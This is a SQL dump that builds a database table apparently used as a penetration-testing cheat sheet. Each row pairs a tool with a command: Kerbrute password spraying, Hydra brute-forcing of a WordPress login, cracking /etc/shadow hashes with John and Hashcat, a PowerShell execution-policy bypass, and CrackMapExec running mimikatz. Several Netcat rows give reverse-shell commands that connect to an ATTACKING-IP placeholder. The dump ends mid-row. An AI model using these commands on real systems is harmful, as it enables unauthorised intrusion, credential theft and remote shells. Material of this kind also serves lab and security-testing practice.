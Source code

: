 | 20220130T17:26:02Z | -- -- File generated with SQLiteStudio v3.2.1 on Sun Feb 7 14:58:28 2021 -- -- Text encoding used: System -- PRAGMA foreign_keys = off; BEGIN TRANSACTION;  -- Table: Commands CREATE TABLE Commands (Command_No INTEGER PRIMARY KEY AUTOINCREMENT NOT NULL, Name TEXT REFERENCES Programs (Name) NOT NULL, Description TEXT NOT NULL, Command TEXT, File BLOB); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (1, %Kerbrute%, %brute single user password%, %kerbrute bruteuers [flags]%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (2, %Kerbrute%, %brute username:password combos from file or stdin%, %kerbrute brutforce [flags]%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (3, %Kerbrute%, %test a single password agains a list of users%, %kerbrute passwordspray [flags]%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (4, %Kerbrute%, %Enumerate valid domain usernames via kerberos%, %kerbrute userenum [flags]%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (5, %Name-That-Hash%, %Find the hash type of a string%, %nth --text %%<hash>%%%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (6, %Name-That-Hash%, %Find the hash type of a file%, %nth --file <hash file>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (7, %Nmap%, %scan for vulnerabilites%, %nmap --script vuln <HOST_IP>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (8, %Nikto%, %Scan host for vulnerabilites%, %nikto -h <HOST_IP>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (9, %SMBClient%, %check for misconfigured anonymous login%, %smbclient -L \\\\<HOST_IP>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (10, %Hydra%, %Brutforce a webpage looking for usernames%, %hydra -l <user wordlist> -p 123 <HOST_IP> http-post-form %%/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=<output string on failure>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (11, %SMBMap%, %enumerates SMB file shares%, %smbmap -u <user> -p <pass> -H <host IP>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (12, %WPScan%, %Enumerate Wordpress website%, %wpscan --url <wp site> --enumerate --plugins-detection%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (13, %WPScan%, %enumerate though known usernames%, %wpscan --url <HOST_IP> --usernames <USERNAME_FOUND> --passwords wordlist.dic%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (14, %PowerShell%, %bypass execution policy%, %powershell.exe -exec bypass%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (15, %TheHarvester%, %gathering informaiton from online sources%, %theharvester -d <domain> -l <#> -g -b google%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (16, %Netcat%, %open a listener%, %nc -lvnp <port #>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (17, %Netcat%, %Connect to computer%, %nc <attacker ip> <attacker port>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (18, %GoBuster%, %Eunmerate directories on a website with a cookie%, %gobuster dir -u http://<IP> -w <wordlist> -x <extention> -c PHPSESSID=<cookie val>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (19, %SQLMap%, %map sql at an IP%, %sqlmap -r <IP> --batch --force-ssl%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (20, %John the Ripper%, %Use wordlist to parse hash%, %john <HASHES_FILE> --wordlist=<wordlist>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (21, %John the Ripper%, %unencrypt shadow file%, %john <Unshadowed passwds>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (22, %Unshadow%, %combine /etc/passwd and /etc/shadow file for cracking%, %unshadow <passwd> <shadow>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (23, %Hashcat%, %crack hashes with a wordlist%, %hashcat -m <hash type> -a 0 -o <output file> <hash file> <wordlist> --force%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (26, %Enum4Linux%, %basic command%, %enum4linux -a <IP>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (27, %SMBClient%, %connect to a SMB share%, %smbclinet //<IP>/<share> -U <username>%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (28, %Netcat%, %connect with shell (-e doest always work)%, %nc -e /bin/sh <ATTACKING-IP> 80%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (29, %Netcat%, %connect with shell (-e doest always work)%, %/bin/sh , nc ATTACKING-IP 80%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (30, %Netcat%, %done on the target%, %rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (31, %SQLMap%, %Check form for SQL injection%, %sqlmap -o -u %http://meh.com/form/% –forms%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (32, %SQLMap%, %automated SQL scan%, %sqlmap -u <URL> --forms --batch --crawl=10 --cookie=jsessionid=54321 --level=5 --risk=3%, NULL); INSERT INTO Commands (Command_No, Name, Description, Command, File) VALUES (33, %CrackMapExec%, %run a mimikatz module%, %crackmapexec smb <target(s)> -u <username> -p <password> --local-auth -M mimikatz%,
